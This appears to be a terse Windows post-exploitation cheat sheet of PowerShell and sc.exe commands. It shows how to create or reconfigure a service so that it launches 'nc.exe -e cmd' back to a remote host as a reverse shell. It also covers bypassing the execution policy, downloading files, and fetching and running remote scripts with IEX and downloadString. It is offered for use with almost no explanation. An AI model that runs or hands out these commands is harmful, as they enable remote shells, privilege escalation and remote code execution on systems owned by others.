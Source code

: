 
## List Services
```powershell
> services
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```

  
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


## Open ports
```powershell
> netstat -nat 

> netstat -ano -p tcp
```


## System process
```powershell 
> tasklist
```
